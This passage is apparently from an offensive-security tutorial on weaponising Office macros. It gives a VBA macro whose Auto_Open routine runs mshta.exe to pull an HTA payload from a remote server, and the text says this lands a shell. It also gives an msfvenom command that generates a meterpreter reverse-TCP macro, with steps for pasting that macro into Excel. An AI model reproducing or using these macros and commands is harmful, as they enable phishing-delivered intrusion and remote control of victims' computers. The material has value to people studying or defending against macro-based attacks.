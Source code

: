   
![](https://lh6.googleusercontent.com/Ep8ec7o9eITsqOMuR04TiMKrSR1bcc5Pkxe6uueoeW38ZtRMs21fVj_RcH1LM4xgve45yxa4e8g1mEyzJ6toBWJb33Bi5Pikou9jdlMyjUQkqOkWKd9k3f5HB6nPv5PTtmOCN_sy)  

The Updated Hello World Macro with mshta.exe being executed

Code Below:

  
```
Sub HelloWorld()

    PID = Shell("mshta.exe https://192.168.100.128:8080/c9496fz.hta")

End Sub

  

Sub Auto\_Open()

    HelloWorld

End Sub
```
    

If we run the script Macro now, we should see mshta.exe reach out to our Payload server and successfully deliver the payload.

![](https://lh4.googleusercontent.com/eLueKr9RUDeUo-gBrAE9Wfoh_6YUId9T2MrCXBmVhg0pPdBhOmBDu0SYZqbXS3OJ1HkgCc_VlOSTU9LkXk7n3pgLQJ7mUc-viLG-sOMAZHk1JAcH-BXjmB1RFCGXqnDQYuuw05l9)  

  

The Microsoft HTA Server Successfully Delivered The Payload, Landing a Shell

### Generating Macros with msfvenom

Alternatively, you can use msfvenom to create Malicious Macros, the syntax is much simpler, all you need to do is the following:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba`    


The above command will generate a Visual Basic Macro that will execute a reverse shell, your output will look something like so and will go directly into your Macro.



![](https://lh4.googleusercontent.com/9HqBcdnBawKKSNq1n-9WYOnFA5uB6Y2WCEpNGqmtCtOfYPUUVXQbw5y8lOYsjxmJwZ-e2_VcpxYqEIe1liZjTyOA1Cm_vt9cM2wQtKSL7cpdvNeOIrpbeZiD6icjMbzBJ0MhbMxU)  
 
### Utilizing MSFVenom to Generate a Malicious Macro

  

You will need to take the given visual basic macro from MSFVenom and paste it into the excel macro editor.

  

![](https://lh3.googleusercontent.com/xCyRp4XYRRUowL5QyzAxFzPELqWv94yJacxBOcoGP5CXCbwrvS-lISNVFyjdTtTvjzLHQt1Xp1SrotJr9QssJkqmzt0YjMQYi8mTLze-OWp15ZZPqx5_wlJX_FYpuRyceXiICyR2)  
